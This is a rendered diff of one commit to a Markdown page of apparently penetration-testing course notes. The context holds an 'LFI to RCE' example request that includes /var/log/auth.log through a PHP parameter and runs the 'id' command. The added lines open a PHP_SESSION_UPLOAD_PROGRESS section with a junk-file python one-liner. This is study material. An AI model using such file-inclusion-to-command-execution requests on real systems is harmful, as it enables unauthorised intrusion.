

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day5.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Cpent/Day5.md
+++ b/Cpent/Day5.md
@@ -188,3 +188,9 @@ LFI to RCE
     http://192.168.0.10/inc.php?f=/var/log/auth.log&1=id
 ![image](https://github.com/user-attachments/assets/ba93e091-250f-4bbf-8938-7ea663d347b1)
 ![image](https://github.com/user-attachments/assets/acc074ef-019d-406b-aa8a-1063777564a5)
+
+PHP_SESSION_UPLOAD_PROGRESS
+---
+    創建一個塞滿垃圾的檔案
+    python -c 'print "A" * 2048 * 1024' >> junk.txt
+<img  alt="image" src="https://github.com/user-attachments/assets/91179427-5665-4ce2-98ae-a3fafea3d966">
```
